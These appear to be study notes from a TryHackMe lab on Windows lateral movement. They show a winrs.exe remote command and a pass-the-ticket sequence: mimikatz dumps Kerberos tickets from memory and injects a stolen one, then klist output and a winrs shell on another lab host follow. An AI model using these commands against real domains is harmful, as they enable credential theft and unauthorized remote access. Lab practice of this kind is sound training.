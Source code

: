 Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.
```
winrs.exe -u:{Administrator} -p:{Mypass123} -r:target cmd
```



***Pass-The-Ticket***

- export  tickets using mimikatz
```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

- after extracting admin ticket we will pass it in the current mimikatz session
  - we will use winrs to connect remotely
```

mimikatz # kerberos::ptt [0;b6a71]-2-0-40e10000-t1_toby.beck1@krbtgt-ZA.TRYHACKM
E.COM.kirbi                                                                     

* File: '[0;b6a71]-2-0-40e10000-t1_toby.beck1@krbtgt-ZA.TRYHACKME.COM.kirbi': OK


mimikatz # ^C                                                                   
za\t2_felicia.dean@THMJMP2 C:\tools>klist                                       

Current LogonId is 0:0x12f209                                                   

Cached Tickets: (1)                                                             

#0>     Client: t1_toby.beck1 @ ZA.TRYHACKME.COM                                
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM                      
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96                    
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent nam
e_canonicalize                                                                  
        Start Time: 11/18/2024 2:09:53 (local)                                  
        End Time:   11/18/2024 12:09:53 (local)                                 
        Renew Time: 11/25/2024 2:09:53 (local)                                  
        Session Key Type: AES-256-CTS-HMAC-SHA1-96                              
        Cache Flags: 0x1 -> PRIMARY                                             
        Kdc Called:                                                             

za\t2_felicia.dean@THMJMP2 C:\tools>winrs.exe -r:THMIIS.za.tryhackme.com cmd    
Microsoft Windows [Version 10.0.17763.1098]                                     
(c) 2018 Microsoft Corporation. All rights reserved.                            

C:\Users\t1_toby.beck1>hostname                                                 
hostname                                                                        
THMIIS                                                                          

C:\Users\t1_toby.beck1>                                                         
```
